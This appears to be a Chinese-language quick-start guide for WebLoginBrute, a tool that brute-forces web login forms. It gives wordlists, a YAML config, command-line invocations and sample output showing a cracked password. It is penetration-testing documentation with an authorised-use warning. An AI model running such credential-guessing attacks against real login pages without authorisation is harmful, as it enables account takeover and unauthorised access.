 # 快速开始

本指南将带您在5分钟内完成一次基本的爆破测试。

## 1. 准备工作

在开始之前，请确保您已完成 [安装指南](./Installation.md) 中的所有步骤。

## 2. 准备目标和字典

### a. 目标登录页面
本次示例将使用 `https://redteamnotes.com/login` 作为演示目标。

### b. 准备字典文件
创建两个简单的文本文件：
- `users.txt`:
  ```
  test
  admin
  guest
  ```
- `passwords.txt`:
  ```
  test
  password
  123456
  ```

## 3. 编写配置文件

在项目根目录创建一个名为 `config.yaml` 的文件，并填入以下内容：

```yaml
# --- 核心配置 ---
# 登录表单所在的页面 URL
url: "https://redteamnotes.com/login"

# 表单提交的目标 URL，通常与登录页面相同或在表单的 action 属性中指定
action: "https://redteamnotes.com/login/authenticate"

# 用户名和密码字典的路径
users: "users.txt"
passwords: "passwords.txt"

# --- 结果判断 ---
# 登录失败时，页面中会包含的特征字符串
fail_string: "Invalid credentials"

# --- 性能配置 ---
# 并发线程数
threads: 5
```

> **提示**: `fail_string` 是判断登录是否失败的关键。请根据实际目标页面的返回内容进行设置。

## 4. 启动爆破

打开终端，确保您已激活虚拟环境，然后运行以下命令：

```bash
webloginbrute --config config.yaml --verbose
```

## 5. 查看结果

程序将开始执行爆破，您会在终端看到实时的进度和统计信息。

如果爆破成功，程序会高亮显示成功的用户名和密码，并自动停止。

```
...
[INFO] 尝试登录: test:test -> 失败
[INFO] 尝试登录: test:password -> 失败
[INFO] 登录成功: test:123456
...
```

至此，您已成功完成了一次基本的登录爆破！

## 下一步

- 探索 [配置详解](./Configuration.md) 以了解更多高级选项。
- 学习如何使用不同的 [对抗级别](./Aggression-Levels.md) 来应对不同的目标。

## 安全提醒

- 仅对授权的目标进行测试
- 遵守当地法律法规
- 不要用于非法用途
- 测试完成后及时清理进度文件

## 基本使用

### 1. 克隆项目
```bash
git clone https://github.com/RedteamNotes/WebLoginBrute.git
cd WebLoginBrute
```

### 2. 安装依赖
```bash
pip install -r requirements.txt
```

### 3. 准备字典
创建或下载用户名和密码字典文件。例如：
`users.txt`:
```
admin
user
guest
```
`passwords.txt`:
```
password
123456
admin
```

### 4. 运行爆破
**基本命令:**
```bash
webloginbrute \
    --url "https://redteamnotes.com/login" \
    --action "https://redteamnotes.com/login/authenticate" \
    --users "users.txt" \
    --passwords "passwords.txt" \
    --fail-string "Invalid credentials" \
    --verbose
```

**使用配置文件:**
创建一个 `config.yaml` 文件:
```yaml
url: "https://redteamnotes.com/login"
action: "https://redteamnotes.com/login/authenticate"
users: "users.txt"
passwords: "passwords.txt"
fail_string: "Invalid credentials"
threads: 20
verbose: true
```
然后运行:
```bash
webloginbrute --config config.yaml --verbose
```

**找到正确密码后，程序将显示成功信息并退出。** 